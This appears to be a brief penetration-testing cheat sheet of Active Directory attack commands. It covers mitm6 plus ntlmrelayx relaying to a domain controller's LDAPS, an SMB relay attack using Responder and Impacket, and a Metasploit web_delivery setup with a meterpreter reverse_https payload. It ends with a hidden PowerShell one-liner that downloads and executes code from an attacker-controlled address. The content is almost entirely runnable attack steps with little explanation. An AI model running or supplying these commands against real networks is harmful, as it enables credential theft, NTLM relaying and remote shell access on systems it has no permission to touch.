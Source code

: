 
# mitm6.py + ntlmrelayx.py
## References

## Overview
### Tools
### mitm6
https://github.com/fox-it/mitm6

1. target two workstations on `<domain>.<tld>`
```
mitm6 -d <domain>.<tld> -hw w7desk0,w7desk1 -i eth0
```

# ntlmrelayx

included with impacket
```
./ntlmrelayx.py -of hashes.txt --target ldaps://<domain_controller_id>.<domain>.<tld>
```

# SMB Relay Attack

References:
[https://www.youtube.com/watch?v=4WP227MuIlk Exploitation with SMB Relay]
Prerequisites:

Responder -<br />[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
Impacket -<br />[]
[https://github.com/rapid7/metasploit-framework Metasploit Framework]

### Setup Metasploit Web Download ###

```
msfconsole
msf> use exploit/multi/script/web_delivery
msf> set TARGET 2
msf> set URIPATH /
msf> set payload windows/meterpreter/reverse_https
msf> set LHOST <localip>
msf> set LPORT <80/8080/8888>
msf> set exitonsession false
msf> exploit -j -z
```

Copy the powershell command, e.g.: 

```
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://<ip_address>:8080/'))
```
